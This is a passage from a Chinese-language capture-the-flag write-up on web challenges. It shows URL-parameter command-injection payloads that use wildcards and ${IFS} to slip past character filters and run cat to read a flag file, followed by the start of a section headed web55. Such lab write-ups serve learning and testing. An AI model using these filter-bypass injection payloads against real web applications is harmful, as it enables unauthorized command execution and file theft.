 比如：想要利用cat命令，我们可以使用

```
?c=/bin/cat
```

来实现，由此可以构建命令

```
?c=/bin/?at${IFS}f???????
?c=/bin/??t$IFS????????
```

在源码里查看flag

![image-20240120173008944](照片/image-20240120173008944.png)

#### web55

分析
